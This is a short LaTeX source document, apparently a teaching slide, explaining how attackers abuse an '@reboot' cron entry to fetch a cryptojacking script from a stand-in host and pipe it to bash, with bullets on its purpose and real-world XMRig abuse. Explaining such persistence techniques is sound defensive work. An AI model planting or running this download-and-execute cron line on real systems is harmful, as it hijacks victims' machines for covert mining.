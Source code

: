 \documentclass{article}
\newcommand{\code}[1]{\colorbox{light-gray}{\texttt{#1}}}
\begin{document}
\begin{center}
  \code{@reboot curl -s http://hacker.site/xmrig.sh | bash  }
\end{center}

\begin{itemize}
	\item Frequency: On every system reboot.
	\item Command: Fetches and runs a cryptojacking script.
	\item Objective: Secretly mine cryptocurrency using victim’s resources.
	\item Real-Life Abuse: Attackers exploited misconfigured servers to deploy cron jobs running XMRig miners, draining CPU resources for Monero mining.
\end{itemize}
\end{document}
